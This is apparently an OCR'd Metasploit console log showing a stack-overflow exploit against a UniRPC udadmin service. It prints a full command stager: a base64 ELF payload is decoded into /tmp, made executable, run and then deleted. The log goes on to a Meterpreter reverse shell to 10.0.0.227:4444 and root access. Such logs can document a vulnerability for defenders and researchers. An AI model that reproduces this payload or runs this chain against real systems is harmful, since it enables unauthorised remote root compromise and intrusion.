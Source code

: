 ```
[*] 10.0.0.198:31438 - Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAGgEAAAAAAAC8AQAAAAAAAAAQAAAAAAAAajlYDwVIhcB0CEgx/2o8WA8FBHAPBWo5WA8FSIXAdeox/2oJWJm2EEiJ1k0xyWoiQVpqB1oPBUiFwHhRagpBWVBqKViZagJfagFeDwVIhcB4O0iXSLkCABFcCgAA41FIieZqEFpqKlgPBVlIhcB5JUn/yXQYV2ojWGoAagVIiedIMfYPBVlZX0iFwHnHajxYagFfDwVean5aDwVIhcB47f/m>>'/tmp/dlwwX.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/RiEPX' < '/tmp/dlwwX.b64' ; chmod +x '/tmp/RiEPX' ; '/tmp/RiEPX' ; rm -f '/tmp/RiEPX' ; rm -f '/tmp/dlwwX.b64'"]
[*] 10.0.0.198:31438 - Connecting to UniRPC endpoint udadmin
[*] 10.0.0.198:31438 - Authenticating to RPC service as fWPgXoZCdnEix with a stack-overflowing password
[*] 10.0.0.198:31438 - Payload sent
[*] 10.0.0.198:31438 - Command Stager progress - 100.00% done (863/863 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 10.0.0.198
[*] Meterpreter session 3 opened (10.0.0.227:4444 -> 10.0.0.198:54570) at 2023-04-11 09:48:08 -0700

meterpreter > getuid
Server username: root
```

